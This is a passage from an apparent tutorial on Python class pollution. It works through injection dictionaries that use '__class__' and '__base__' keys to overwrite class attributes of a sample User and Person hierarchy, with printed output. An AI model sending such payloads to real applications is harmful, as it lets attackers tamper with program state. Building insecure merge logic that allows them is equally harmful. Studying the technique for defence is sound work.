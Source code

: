 6. Now, we want to change the class (static) attribute of the `Person`. 
7. In order to move from `abc` object to `User`, we use the `__class__` attribute.
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {}
} 
```
- Equivalent to `abc.__class__ = {}` (empty class) 
```python
print(dir(abc.__class__))
```
Output:
```
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'target1']
```
8. To change the class attribute of `abc`, we can
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        'target1' : 'TEMPORARY POLLUTION #1'
    }
} 
```
Output:
```
<myPackage.User object at 0x000001C299F5ACC0>
Target 1:  TEMPORARY POLLUTION #1
Target 2:  TEMPORARY POLLUTION #2
Target 3:  TEMPORARY POLLUTION #3
<myPackage.User object at 0x000001C299CBA450>
Target 1:  TEMPORARY POLLUTION #1
Target 2:  Victim
Target 3:  change this
<myPackage.Person object at 0x000001C299CBA420>
Target 1:  1
False
```
- Notice that all `User`'s target1 is changed but not `Person` (the parent). This is because we change the class attribute of `User`

9. To access the class definition of `Person`, we use `__base__`
```python
injection = {
    'target2' : 'TEMPORARY POLLUTION #2',
    'target3' : 'TEMPORARY POLLUTION #3',
    '__class__' : {
        '__base__' : {}
    }
} 
```
- Equivalent to `abc.__class__.__base__ = {}`
```python
print(dir(abc.__class__.__base__))
```
Output of:
```
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'target1']
```